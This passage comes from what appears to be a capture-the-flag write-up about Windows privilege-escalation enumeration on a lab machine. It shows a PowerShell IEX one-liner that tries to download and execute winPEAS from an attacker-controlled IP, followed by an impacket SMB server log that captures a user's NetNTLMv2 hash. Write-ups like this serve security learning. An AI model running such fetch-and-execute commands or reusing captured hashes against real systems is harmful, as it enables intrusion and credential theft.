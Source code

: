 The version of windows is pretty recent and has a lot of hotfixes. I decided to run winPEAS to enumerate further.

## WinPEAS

I couldn't get it with IEX:

```cmd
C:\Users>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.211:8000/winPEASany.exe')"            
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.211:8000/winPEASany.exe')"
IEX : At line:6 char:8
+ *V(3
+        ~
Missing closing ')' in expression.
At line:10 char:2
+ ,/('
+  ~

...[lots of errors]...

Missing closing '}' in statement block or type definition.
Not all parse errors were reported.  Correct the reported errors and try again.
At line:1 char:1
+ IEX(New-Object Net.WebClient).downloadString('http://10.10.16.211:800 ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : MissingEndParenthesisInExpression,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

So I used `impacket-smbserver` instead. On my local machine:

```bash
┌──(mac㉿kali)-[~]
└─$ cd Documents/enum/
┌──(mac㉿kali)-[~/Documents/enum]
└─$ sudo impacket-smbserver share .
[sudo] password for mac: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.237,60924)
[*] AUTHENTICATE_MESSAGE (ATOM\jason,ATOM)
[*] User ATOM\jason authenticated successfully
[*] jason::ATOM:aaaaaaaaaaaaaaaa:a466af52f6c2f02a53ce6811c8e58383:0101000000000000009a7b8e726ad70177d2b432c50e06c300000000010010004200730075004a004800440073006b00030010004200730075004a004800440073006b0002001000430045004200540058004b004c006c0004001000430045004200540058004b004c006c0007000800009a7b8e726ad701060004000200000008003000300000000000000000000000002000003d1f2a5d9f565e972c5d55925af40a8257a7792a673eae1f0494bb48b60531490a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310036002e003200310031000000000000000000
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.237,60924)
[*] Remaining connections []
```
